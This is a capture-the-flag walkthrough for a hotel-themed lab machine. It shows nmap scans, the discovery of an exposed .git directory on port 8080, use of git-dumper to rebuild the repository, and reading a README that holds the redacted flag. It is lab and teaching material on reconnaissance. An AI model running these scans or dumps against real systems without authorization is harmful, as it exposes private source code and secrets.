



## Scenario

> He booked the quiet room. It's not on the floor plan, not in the brochure, not on any door. But port 8080 is wide open, and the rooms it never lists are the ones worth finding.
> 
> Welcome to the Byte Lotus, where the WiFi is open, the app is free, and the concierge already knows your coffee order. You spend these first days as a guest who simply notices things — a room that isn't on the floor plan, packets that leave every night at the same hour, a profile assembled from two breakfasts and a livestream.
> 
> The Byte Lotus guest-experience platform went live in a hurry, and the night-shift developer shipped more than the website.

Access via: `http://10.113.165.252:8080`

## Exploring the Website

I started in the browser on the landing page for the Byte Lotus hotel.



Clicking the nav elements does nothing except add a `#` to the end of the URL. "Reserve a Stay" takes me to `/booking`, which returns a 404 Not Found page.


The error page looked like plain text, so I guessed a txt file might be involved and tried `/robots.txt`. It returned the same 404.



The page had nothing else to click, so I moved on to scanning the machine.

## Port Scanning

I began with a scan of every TCP port to see what the machine exposes.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.165.252 -p- -T4

[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-19 00:42 +0200
Nmap scan report for 10.113.165.252
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds
```

This command scans all 65535 TCP ports on the target and reports which ones are open.

Two ports are open: SSH on 22 and an HTTP service on 8080, which Nmap labels `http-proxy` from the port number alone. Next I ran version detection and the default scripts against those two ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.165.252 -p22,8080 -sV -sC

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-19 00:43 +0200
Nmap scan report for 10.113.165.252
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 d9:bb:b1:9f:9c:ac:0b:0f:74:b8:39:f3:28:b2:5a:d3 (ECDSA)
|_  256 01:24:42:53:b8:0b:1e:91:5d:c6:07:92:25:03:87:9a (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
| http-git:
|   10.113.165.252:8080/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: initial Byte Lotus guest platform
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Byte Lotus &mdash; Stay Noticed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

This command fingerprints the services on the two open ports and runs Nmap's default scripts against them.

Port 22 runs OpenSSH 9.6p1 on Ubuntu. Port 8080 runs a Python web server (Werkzeug 3.0.1 on Python 3.12.3), and the `http-git` script reports that a **Git repository was found at `/.git/`**. It also gives the last commit message, "initial Byte Lotus guest platform". Found the git. I opened `/.git/` in the browser to check, and the repository's internals are listed there.



## Dumping the Repository

Browsing the repository file by file is slow, and Git objects are compressed, so I can't read them straight from the browser. I decided to use `git-dumper` to rebuild the repository on my own machine, which makes searching for the flag much easier. First I made a working directory.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ mkdir /tmp/gitdump

┌──(—REDACTED—㉿kali)-[~]
└─$ cd /tmp/gitdump
```

These two commands create an empty directory for the dump and move into it.

Then I ran the dumper against the exposed `.git` path.

```shell
┌──(—REDACTED—㉿kali)-[/tmp/gitdump]
└─$ git-dumper http://10.113.165.252:8080/.git/ .

[-] Testing http://10.113.165.252:8080/.git/HEAD [200]
[-] Testing http://10.113.165.252:8080/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://10.113.165.252:8080/.git/ [200]
[-] Fetching http://10.113.165.252:8080/.gitignore [404]
[-] http://10.113.165.252:8080/.gitignore responded with status code 404
—SNIP—
[-] Fetching http://10.113.165.252:8080/.git/refs/heads/main [200]
[-] Fetching http://10.113.165.252:8080/.git/logs/refs/heads/main [200]
[-] Fetching http://10.113.165.252:8080/.git/hooks/pre-push.sample [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 3 paths from the index
```

This command downloads the contents of the remote `.git` directory and rebuilds the working tree from it, so I end up with a local copy of the repository's files.

**Breakdown:**

- `git-dumper` is the tool that recreates a Git repository from an exposed `.git` directory on a web server
- `http://10.113.165.252:8080/.git/` is the URL of the exposed `.git` directory, which the tool crawls recursively, fetching `HEAD`, `config`, `index`, `logs/`, `refs/` and the objects under `objects/`
- `.` is the output directory, meaning the current directory (`/tmp/gitdump`)

The `[404]` for `.gitignore` is harmless, since the repository has no such file. The last lines show `git checkout .` restoring three paths from the index into the working tree.

## Finding the Flag

I listed the directory to see what the checkout restored.

```shell
┌──(—REDACTED—㉿kali)-[/tmp/gitdump]
└─$ ls -la

total 12
drwxrwxr-x  3 —REDACTED— —REDACTED—  120 Nov 19 00:54 .
drwxrwxrwt 15 root  root   360 Nov 19 00:54 ..
-rw-rw-r--  1 —REDACTED— —REDACTED—  263 Nov 19 00:54 app.js
drwxrwxr-x  7 —REDACTED— —REDACTED—  240 Nov 19 00:54 .git
-rw-rw-r--  1 —REDACTED— —REDACTED— 2554 Nov 19 00:54 index.html
-rw-rw-r--  1 —REDACTED— —REDACTED—  238 Nov 19 00:54 README.md
```

This command lists everything in the directory, hidden entries included, with permissions, owner, size and modification time.

The source holds three files: `app.js`, `index.html` and `README.md`, plus the `.git` directory. A README in a staging repository is a good place to look for notes the developer left behind, so I read it first.

```shell
┌──(—REDACTED—㉿kali)-[/tmp/gitdump]
└─$ cat README.md

# Byte Lotus — Guest Experience Platform

Internal staging repository for the guest app and concierge personalization
service. Do not deploy this folder to production.

Staging flag (remove before launch): —REDACTED—
```

This command prints the contents of `README.md` to the terminal.

**Breakdown:**

- `cat` outputs the contents of a file
- `README.md` is the file to print

The README says the folder was never meant for production, and it contains the staging flag the developer meant to remove before launch.

**Answer:** `—REDACTED—`